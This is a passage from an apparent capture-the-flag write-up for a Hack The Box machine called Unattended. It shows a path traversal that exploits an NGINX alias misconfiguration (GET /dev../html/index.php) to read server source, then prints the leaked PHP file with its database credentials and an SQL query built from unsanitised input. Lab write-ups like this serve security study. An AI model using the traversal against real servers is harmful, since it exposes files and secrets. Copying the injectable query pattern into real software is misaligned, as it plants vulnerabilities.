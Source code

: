 ```py
if __name__ == '__main__':
    main()
```

Let's continue.

# NGINX Bug

There is another vuln in it. When we accessed the dev path it showed us a text about it has been moved to other place. If dev were hosted on a different subdomain, but in the nested flanders host?!

We get a good blog form [acunetix](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/) where this bug was very well explained

Based on the folder structure of the page, we can conclude that

```
/
  var
    www
      html
      dev
```

The request for:

GET /dev../html/ shows me a 200

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2002:55:18.png)

And we can get the index.php file with

GET /dev../html/index.php HTTP/1.1

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2002:56:50.png)

index.php

```php
<?php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
	global $debug;
	$valid_ids = array (25,465,587);
	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
	} else {
		$sql = "SELECT name FROM idname where id = '25'";
	}
	if ($debug) { echo "sqltpl: $sql<br>\n"; } 
	
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
	while($row = $result->fetch_assoc()) {
		$ret = $row['name'];
	}
	} else {
		$ret = 'main';
```